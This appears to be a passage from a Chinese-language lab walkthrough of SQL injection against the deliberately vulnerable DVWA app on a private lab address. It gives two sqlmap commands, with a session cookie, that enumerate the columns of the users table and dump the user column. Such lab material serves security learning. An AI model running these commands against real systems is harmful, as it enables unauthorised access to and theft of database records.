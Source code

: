 ![image-20250218204909255](../../_media/image-20250218204909255.png)



爆破列：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/?id=1&Submit=Submit#" -v 3 --cookie="PHPSESSID=kdrdnbrglpb6o5relntdaiec81; security=low" -D dvwa -T users --columns
```

![image-20250218204925786](../../_media/image-20250218204925786.png)





爆破用户字段：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/?id=1&Submit=Submit#" -v 3 --cookie="PHPSESSID=kdrdnbrglpb6o5relntdaiec81; security=low" -D dvwa -T users -C user --dump
```
